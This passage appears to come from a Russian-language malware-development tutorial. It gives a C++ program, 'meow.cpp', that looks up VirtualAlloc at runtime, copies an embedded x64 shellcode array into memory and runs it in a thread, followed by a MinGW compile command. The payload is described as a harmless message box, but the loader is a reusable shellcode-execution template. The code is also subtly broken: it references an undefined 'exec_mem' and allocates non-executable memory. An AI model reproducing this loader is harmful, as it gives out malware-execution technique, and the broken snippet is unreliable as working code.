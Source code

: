 Далее, реальный способ выполнения шелл-кода выглядит примерно так (`meow.cpp`):

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(
LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";


int main() {
  HMODULE hk32 = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");
  PVOID lb = pVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = CreateThread(0, 0, 
  (PTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

Этот код содержит очень простую логику для выполнения полезной нагрузки. В данном случае, для упрощения, используется полезная нагрузка с сообщением "meow-meow".    

Компилируем:

```bash
x86_64-w64-mingw32-g++ meow.cpp -o meow.exe \
-mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-Wint-to-pointer-cast -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```
